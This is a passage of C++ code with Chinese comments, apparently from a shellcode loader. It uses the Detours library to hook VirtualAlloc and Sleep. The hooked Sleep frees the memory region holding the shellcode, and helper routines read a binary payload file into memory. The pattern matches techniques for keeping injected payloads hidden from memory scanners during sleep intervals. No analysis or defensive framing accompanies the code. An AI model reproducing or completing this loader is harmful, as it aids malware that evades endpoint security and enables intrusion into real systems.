 ```
{
  if (Vir_FLAG)
  {
    VirtualFree(shellcode_addr, 0, MEM_RELEASE);
    Vir_FLAG = false;
  }
  printf("sleep时间:%d\n", dwMilliseconds);
  SetEvent(hEvent);
  OldSleep(dwMilliseconds);
}

void Hook()
{
  DetourRestoreAfterWith(); //避免重复HOOK
  DetourTransactionBegin(); // 开始HOOK
  DetourUpdateThread(GetCurrentThread());
  DetourAttach((PVOID*)&OldVirtualAlloc, NewVirtualAlloc);
  DetourAttach((PVOID*)&OldSleep, NewSleep);
  DetourTransactionCommit(); //  提交HOOK
}

void UnHook()
{
  DetourTransactionBegin();
  DetourUpdateThread(GetCurrentThread());
  DetourDetach((PVOID*)&OldVirtualAlloc, NewVirtualAlloc);
  DetourTransactionCommit();
}

size_t GetSize(char * szFilePath)
{
  size_t size;
  FILE* f = fopen(szFilePath, "rb");
  fseek(f, 0, SEEK_END);
  size = ftell(f);
  rewind(f);
  fclose(f);
  return size;
}

unsigned char* ReadBinaryFile(char *szFilePath, size_t *size)
{
  unsigned char *p = NULL;
  FILE* f = NULL;
  size_t res = 0;
  *size = GetSize(szFilePath);
  if (*size == 0) return NULL;
  f = fopen(szFilePath, "rb");
  if (f == NULL)
  {
    printf("Binary file does not exists!\n");
    return 0;
  }
  p = new unsigned char[*size];
  // Read file
  rewind(f);
  res = fread(p, sizeof(unsigned char), *size, f);
  fclose(f);
  if (res == 0)
  {
    delete[] p;
    return NULL;
  }
```